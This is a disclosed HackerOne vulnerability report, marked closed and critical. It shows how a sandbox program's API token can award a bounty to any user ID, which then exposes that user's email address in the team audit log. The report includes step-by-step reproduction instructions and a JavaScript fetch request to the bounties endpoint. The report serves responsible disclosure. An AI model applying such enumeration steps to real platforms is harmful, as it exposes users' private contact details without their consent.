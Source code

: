 # View any user email using the Team's audit log section

## Report Details
- **Report ID**: 2404415
- **URL**: https://hackerone.com/reports/2404415
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2024-03-06T17:33:02.738Z
- **Disclosed**: 2024-03-26T14:00:46.469Z

## Reporter
- **Username**: kimingi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Hello team, I decided to do some further testing, and I came across another endpoint that can be used to reveal user emails. 

### Steps To Reproduce

1. Create a demo in your account https://hackerone.com/teams/new/sandbox
2. Create a token with the report manager role on https://hackerone.com/organizations/demo/settings/api_tokens
3. Copy the user ID of any user that has an account on HackerOne
4. A program bounty to that user using the API. `recipient_id` is the id of any user and `{id}` is the id of your sandbox program.
```
let inputBody = "{\n  \"data\": {\n    \"type\": \"bounty\",\n    \"attributes\": {\n      \"recipient_id\": \"2869549\",\n          \"amount\": 51,\n      \"reference\": \"newbounty1\",\n      \"title\": \"BOUNTY\",\n      \"currency\": \"USD\",\n      \"severity_rating\": \"high\"\n    }\n  }\n}";
let user = 'identifier';
let password = 'token';
let headers = new Headers();
headers.set('Authorization', 'Basic ' + btoa(user + ":" + password));
  headers.set('Content-Type', 'application/json');  headers.set('Accept', 'application/json');

fetch('https://api.hackerone.com/v1/programs/{id}/bounties',
{
  method: 'POST',
  body: inputBody,
  headers: headers
})
.then(function(res) {
    return res.json();
}).then(function(body) {
    console.log(body);
});
```
5. You will get a success message
6. After awarding the bounty to the user, head over to the audit log section of your sandbox team.
7. Notice a message is shown `"@api" awarded a $51.00 bounty to "email@email.com"`

POC
████

## Impact

View emails of other users



## Attachments
No attachments
